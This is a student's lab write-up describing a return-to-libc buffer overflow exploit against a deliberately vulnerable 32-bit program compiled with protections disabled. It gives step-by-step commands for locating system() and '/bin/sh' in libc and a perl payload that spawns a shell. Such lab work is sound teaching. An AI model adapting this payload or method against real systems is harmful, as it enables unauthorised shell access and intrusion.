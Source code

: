 ## What I learned:
This buffer overflow lab taught me how to modify memory locations in order to overflow into return pointers. Additionally, I learned how to perform an "Return to System" attack in order to get around the non-executable stack protection. The most difficult part of the lab was determining where the libC System library was located in memory and using the System offset to get there. I also had to use the `objdump` terminal command to disassemble the vuln.c code in order to determine where variables a,b,c,d and the location of the function "exploitable" was in memory. The following is the method I eventually used to execute this attack.

### Configuration
After spending many hours trying to find an old Linux image that would work on Virtual Box, I was unsuccessful. I eventually decided to try the return-to-libc exploit on my main Desktop and I found I did not need to use a virtual machine to make this exploit work.  I was able to use my desktop Ubuntu 22.04 64-bit machine. Here are the GCC flags required to make this work:
* Position Independent Executable (PIE) must be disabled 
`-no-pie`
* Stack Protector must be disabled
`-fno-stack-protector`
* Binary must be compiled in 32-bit
`-m32`
* Kernel randomization of memory addresses must be disabled in /etc/sysctl.conf:
```
# Do not randomize memory addresses
kernel.randomize_va_space = 0
```

## INSTRUCTIONS:

Compile using gcc flags to turn off protections:

`gcc vuln.c -o vuln -fno-stack-protector -no-pie -m32`

### STEP 0: Calculate the padding required to overrun the buffer in vuln by passing in strings of increasing length and observing the return pointer of the program  

`./vuln AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH`

`dmesg`

    [14270.359034] vuln[18179]: segfault at 47474746 ip 0000000047474746 sp 00000000ff99b670 error 14 in libc.so.6[f7c00000+20000]
### STEP 1: Find out which version of libC vuln is using

`ldd vuln`

        linux-gate.so.1 (0xf7f96000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7c00000)
        /lib/ld-linux.so.2 (0xf7f98000)

### STEP 2: Grab the base address of libC from above

    Base Address = 0xf7c00000

### STEP 3: Find the system offset in libC

`readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
  
    2166: 00048150    63 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.0

### STEP 4: Calculate the actual address of the libC system()

    f7c00000 (base addr) + 00048150 (offset) = F7C48150 (actual address)

### STEP 5: Find the offset of the string "/bin/sh" in libC library

`strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"`

    1bd0f5 /bin/sh

### STEP 6: Calculate the actual address of the string "/bin/sh" inside the libC library:
    f7c00000 (libC base addr) + 1bd0f5 (string offset) = F7DBD0F5


### STEP 7: Build the payload
[      22 x "A" characters      ][  system() address  ][ 8-byte Spacing ][ '/bin/sh' address ]


`./vuln $(perl -e 'print "A"x22 . "\x50\x81\xc4\xf7" . "BBBB\x00\x00\x00\x00" . "\xf5\xd0\xdb\xf7"')`

### STEP 8: pack the payload into exploit.c
the code exploit.c will call libC.system() using the payload above, causing a shell to be spawned using the permissions of the vuln process.

Compile exploit.c

`gcc exploit.c -o exploit -fno-stack-protector -no-pie -m32`

### SCREEN RECORDING:
I recorded the usage of the exploit on my Ubuntu 22.04 64-bit machine, the file is:
`screen_recording_Hunter_Ruebsamen.mkv`